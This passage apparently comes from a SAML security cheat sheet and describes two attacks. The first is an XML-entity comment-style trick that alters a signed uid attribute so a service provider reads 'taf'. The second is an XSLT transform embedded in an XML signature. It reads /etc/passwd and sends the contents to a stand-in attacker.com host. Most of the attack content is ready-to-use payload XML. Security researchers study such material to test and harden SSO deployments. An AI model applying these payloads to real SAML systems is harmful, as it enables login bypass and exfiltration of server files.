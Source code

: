 In the following example:
- `&s;` will resolve to the string `"s"`
- `&f1;` will resolve to the string `"f1"`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Response [
  <!ENTITY s "s">
  <!ENTITY f1 "f1">
]>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol"
  Destination="https://idptestbed/Shibboleth.sso/SAML2/POST"
  ID="_04cfe67e596b7449d05755049ba9ec28"
  InResponseTo="_dbbb85ce7ff81905a3a7b4484afb3a4b"
  IssueInstant="2017-12-08T15:15:56.062Z" Version="2.0">
[...]
  <saml2:Attribute FriendlyName="uid"
    Name="urn:oid:0.9.2342.19200300.100.1.1"
    NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
    <saml2:AttributeValue>
      &s;taf&f1;
    </saml2:AttributeValue>
  </saml2:Attribute>
[...]
</saml2p:Response>
```

The SAML response is accepted by the service provider. Due to the vulnerability, the service provider application reports "taf" as the value of the "uid" attribute.


### Extensible Stylesheet Language Transformation

An XSLT can be carried out by using the `transform` element.

![http://sso-attacks.org/images/4/49/XSLT1.jpg](http://sso-attacks.org/images/4/49/XSLT1.jpg)    
Picture from [http://sso-attacks.org/XSLT_Attack](http://sso-attacks.org/XSLT_Attack)    

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
            <xsl:variable name="exploitUrl"select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
    </ds:Transforms>
  ...
</ds:Signature>
```
